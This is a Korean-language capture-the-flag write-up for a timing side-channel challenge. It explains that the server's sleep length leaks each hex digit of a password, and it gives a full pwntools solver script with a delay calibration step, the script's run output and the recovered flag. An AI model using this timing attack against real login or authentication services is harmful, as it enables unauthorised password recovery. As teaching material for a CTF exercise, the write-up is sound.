

# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**



첨부파일

[CODE BLOCK](https://rdmd.readme.io/docs/code-blocks)

# **Write-Up**

guess_password함수에서 time.sleep을 통해 password를 유추할 수 있다. 문제서버에서 순차적으로 (password + 1)*0.3초동안 sleep을 한다.

```py
time.sleep(0.3 * (int(password[i], 16)+1))
```

역으로 계산하면 다음과 같이 나타낼 수 있다.

```py
password = (sleep된 초//0.3) - 1
```

하지만, 문제서버의 1초와 입력과 출력사이의 초는 오차가 있기 때문에 1번 메뉴("(1) Calibrate Timing")를 이용하여 평균 오차를 구해야한다.

```py
def calibrate():
    print("Press enter to begin a 1 second delay.")
    input()
    time.sleep(1)
    print("1 second has passed")
```

즉, 다음과 같은 python코드로 flag를 획득할 수 있다. (약간의 오차로 인하여 password와 추측된 password가 일치하지 않을 수 있지만, 반복하면 얻을 수 있다.)

```py
from pwn import *
import time, numpy, tqdm

Calibrate_Timing = '1'
Guess_Password = '2'
guessed_password = ''
delay_total_time = []

p = remote('oreos.imaginary.ml', 3000)
# Calibrate Timing
print('Delay calculation')
for i in tqdm.tqdm(range(10)):
    p.recvuntil('(2) Guess Password\n')
    p.sendline(Calibrate_Timing)
    p.recvuntil('delay.\n')
    p.sendline('')
    start_time = time.time()
    p.recvuntil('passed\n\n')
    total_time = time.time() - start_time
    delay_time = total_time - 1
    delay_total_time.append(delay_time)
delay_time = numpy.mean(delay_total_time)

# Guess Trial 1
print('Guess Trial 1')
p.recvuntil('(2) Guess Password\n')
p.sendline(Guess_Password)
p.recvuntil('?\n')
p.sendline('0')
for i in tqdm.tqdm(range(8)):
    start_time = time.time()
    if i == 7: p.recvuntil('Trial 2\n')
    else: p.recvuntil('?\n')
    total_time = time.time() - start_time - delay_time
    if total_time < 0: total_time = '0'
    else:
        if int(str(total_time)[3:4]) > 7: total_time = round(total_time, 1)
        total_time = hex(int(total_time//0.3) - 1)[2:]
    if 'x' in total_time: total_time = '0'
    guessed_password += total_time
    if i < 7: p.sendline('0')
print('Gussed password\t{}'.format(guessed_password))

# Guess Trial 2
print('Guess Trial 2')
for i in tqdm.tqdm(range(len(guessed_password))):
    p.recvuntil('?\n')
    p.sendline(guessed_password[i])
print(p.recv().decode().strip())

[Output]
[x] Opening connection to oreos.imaginary.ml on port 3000
[x] Opening connection to oreos.imaginary.ml on port 3000: Trying 52.156.67.141
[+] Opening connection to oreos.imaginary.ml on port 3000: Done
Delay calculation
100%|████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████| 20/20 [00:26<00:00,  1.34s/it]
Guess Trial 1
100%|██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████| 8/8 [00:21<00:00,  2.64s/it]
Gussed password e3118ed4
Guess Trial 2
100%|██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████| 8/8 [00:01<00:00,  6.55it/s] 
ictf{t!m!ng_!5_3v3ry+h!ng}
[*] Closed connection to oreos.imaginary.ml port 3000
```


# **FLAG**

**ictf{t!m!ng_!5_3v3ry+h!ng}**